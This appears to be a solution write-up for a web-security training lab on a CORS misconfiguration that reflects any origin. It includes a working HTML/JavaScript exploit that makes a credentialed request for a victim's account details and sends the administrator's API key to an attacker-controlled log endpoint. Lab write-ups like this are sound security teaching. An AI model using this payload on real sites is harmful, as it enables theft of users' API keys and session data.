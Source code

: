 # CORS vulnerability with basic origin reflection
# Objective
This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
The `GET` request to `/accountDetails` retrieves: username, email, API key and active user sessions.
|![](Images/image.png)|
|:--:| 
| *Normal request and response* |

After adding `Origin` header to the request, the application reflects the origin in `Access-Control-Allow-Origin` header. Header `Access-Control-Allow-Credentials: true` is also present in response from server.
|![](Images/image-1.png)|
|:--:| 
| *Reflected origin in response* |

## Exploitation
In order to exploit this CORS vulnerability, attacker can use the followinng code:
```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial">
    </head>
    <body>
        <h4>Exploit</h4> 
        <script>
            const request = new XMLHttpRequest();
            request.open("get","https://0a3b0009039f11b0803c6ccd009d006b.web-security-academy.net/accountDetails", true);
            request.onload = ()=> {
                window.location.href = "/log?key=" + request.responseText
            }
            request.withCredentials = true;
            request.send();
        </script>
    </body>
</html>
```

|![](Images/image-2.png)|
|:--:| 
| *Log with administrator API key* |
|![](Images/image-3.png)|
| *URL decoded data* |
